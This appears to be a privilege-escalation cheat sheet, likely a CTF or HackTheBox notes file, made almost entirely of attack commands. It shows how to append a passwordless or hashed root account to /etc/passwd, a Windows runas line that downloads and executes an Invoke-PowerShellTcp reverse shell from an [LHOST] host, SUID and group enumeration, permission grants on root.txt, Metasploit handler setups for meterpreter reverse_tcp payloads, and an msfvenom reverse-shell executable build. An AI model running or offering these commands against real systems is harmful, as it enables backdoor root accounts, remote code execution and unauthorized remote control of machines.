 ```
openssl passwd -1 -salt raj pass123
```

```
perl -le 'print crypt("password", "aa")'
```

```
aajfMKNH1hTm2
echo "aqua:aajfMKNH1hTm2.dU:0:0:root:/root:/bin/bash" >> passwd
echo aqua::0:0:root:/root:/bin/bash >> /etc/passwd
```

Windows
runas /user:ACCESS\Administrator /savecred "powershell -noni -nop -exec bypass-c "IEX (New-Object Net.WebClient).DownloadString('http://[LHOST]/Invoke-PowerShellTcp.ps1')"

## Tool
https://github.com/rebootuser/LinEnum

Linuxprivchecker
find / -group adm 2>/dev/null
find / -type f -perm -4000 2>/dev/null

wget //www.securitysift.com/download/linuxprivchecker.py

git clone //github.com/jondonas/linux-exploit-suggester-2.git

Windows
cacls C:\Users\Administrator
cacls root.txt /grant <username>:F
ICACLS root.txt /grant "Users":F

# msf
```
use exploit/multi/handler
set ExitOnsession false
exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

```
msfconsole -x "use exploit/multi/handler; set ExitOnsession false; set payload windows/meterpreter/reverse_tcp; set LHOST 10.10.14.19; set LPORT 4444; exploit -j"
```

```
$ metasploit -q
set payload windows/meterpreter/reverse_tcp; LHOST [LHOST]; LPORT 4444; exploit -j
```
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[LHOST] LPORT=[LPORT] -a x64 -f exe > shell.exe
```
